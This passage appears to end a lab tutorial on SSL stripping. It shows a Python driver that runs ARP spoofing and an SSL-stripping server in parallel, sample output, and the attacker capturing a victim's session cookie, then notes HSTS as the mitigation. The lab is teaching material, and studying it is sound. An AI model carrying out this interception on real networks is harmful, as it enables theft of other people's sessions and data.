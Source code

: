 ***

We've written all we need to go through with the attack so
back in our main script, we write the driver.

```python
def run(filepath):
    init()
    arp_process = Process(target=arp_spoof)
    stripping_process = Process(target=ssl_stripping, args=(filepath,))
    arp_process.start()
    stripping_process.start()
    stripping_process.join()
    arp_process.terminate()
```

Where the last step in our driver is to call our custom ssl-stripping function

```python
def ssl_stripping(filepath):
    run_server(filepath)
```

We running the attack script as Mallory we see Alice now prints

```
[http] GET response received
[http] POST response received
[http] PUT response received
```

And Mallory got a hold of Alice's session cookie and content body.

<br>

***

## Conclusion

***

We demonstrated how a malicious actor can perform SSL-stripping when on the same local network but
this attack can also be performed on a wider network. It is an example of a [downgrade attack](https://en.wikipedia.org/wiki/Downgrade_attack)
and can be mitigated using the HTTP Strict Transport Security header (HSTS).

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

